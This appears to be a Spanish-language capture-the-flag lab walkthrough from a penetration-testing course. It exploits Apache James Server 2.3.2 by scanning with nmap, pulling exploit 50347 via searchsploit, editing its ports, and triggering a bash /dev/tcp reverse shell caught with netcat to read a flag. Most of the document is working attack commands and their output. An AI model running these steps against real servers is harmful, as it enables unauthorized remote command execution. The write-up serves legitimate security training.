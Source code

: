 # Walk: Capstonte

## Fecha: 10/06/2025
## Host: 
## IP: {IP}
## Objetivo
Capstone Lab: An exploitable server is running services on several ports on the exercise VM, PublicExploits03. 
Treat this like a real box and start by identifying what services are running. There is a local user student on this box with the password **lab**. 
Exploit the vulnerable service and SSH to the box to read flag.txt located in /home/challenge/.
## Herramientas
1. tool - 1 
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Enumeramos el servidor:
```bash
┌──(root㉿kali)-[/home/kali/OffSec/x-LocatingPublicExploits/capstone]
└─# nmap -sV -p- -T4 192.168.161.52 -oN 52-all-ports-services.txt

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-10 10:40 -03
Nmap scan report for 192.168.161.52
Host is up (0.15s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.4p1 Ubuntu 5ubuntu1.2 (Ubuntu Linux; protocol 2.0)
32822/tcp open  james-admin JAMES Remote Admin 2.3.2
32823/tcp open  nntp        JAMES nntpd (posting ok)
32824/tcp open  pop3        JAMES pop3d 2.3.2
32825/tcp open  smtp        JAMES smtpd 2.3.2
32826/tcp open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
Service Info: Host: f0fe9b8513cd; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 781.78 seconds

```
#### Paso 2: Buscamos el exploit:
```bash
──(root㉿kali)-[/home/kali/OffSec/x-LocatingPublicExploits/capstone]
└─# searchsploit Apache James Server 2.3.2                       
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)                                                                                            | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                                                                                                            | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)                                                                                                  | linux/remote/50347.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
#### Paso 3: Generamos el mirror:
```bash
┌──(root㉿kali)-[/home/kali/OffSec/x-LocatingPublicExploits/capstone]
└─# searchsploit -m 50347                  
  Exploit: Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)
      URL: https://www.exploit-db.com/exploits/50347
     Path: /usr/share/exploitdb/exploits/linux/remote/50347.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/OffSec/x-LocatingPublicExploits/capstone/50347.py
```

#### Paso 4: Modificamos el exploit a nuestras necesidades:

> Modificamos los puertos 

* s.connect((remote_ip,32822)) # Remote Administration Tool
* s.connect((remote_ip,32825))  # SMTP Server

#### Paso 5: Subimos el exploit por ssh al usuario student y lo ejecutamos, con un receptor nc en nuestro kali:

- Student:

```bash
student@f0fe9b8513cd:~$ wget http://192.168.45.239:8000/50347.py
--2025-06-10 14:53:23--  http://192.168.45.239:8000/50347.py
Connecting to 192.168.45.239:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4581 (4.5K) [text/x-python]
Saving to: ‘50347.py’

50347.py                                             100%[====================================================================================================================>]   4.47K  --.-KB/s    in 0s      

2025-06-10 14:53:24 (549 MB/s) - ‘50347.py’ saved [4581/4581]

student@f0fe9b8513cd:~$ chmod +x 50347.py
student@f0fe9b8513cd:~$ python3 50347.py 192.168.161.52 192.168.45.239 4444
[+]Payload Selected (see script for more options):  /bin/bash -i >& /dev/tcp/192.168.45.239/4444 0>&1
[+]Example netcat listener syntax to use after successful execution: nc -lvnp 4444
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).
[+]Don't forget to start a listener on port 4444 before logging in!
student@f0fe9b8513cd:~$
```

- kali:

```bash
┌──(root㉿kali)-[/home/kali/OffSec/x-LocatingPublicExploits/capstone]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.161.52] 37188
challenge@f0fe9b8513cd:~$ ls
ls
flag.txt
challenge@f0fe9b8513cd:~$ cat flag.txt
cat flag.txt
Congrats. Here is your flag, brought to you by the great Ronald Dahl:

OS{10579a8973d8fc1ddd429a84000c189c}
challenge@f0fe9b8513cd:~$   
```

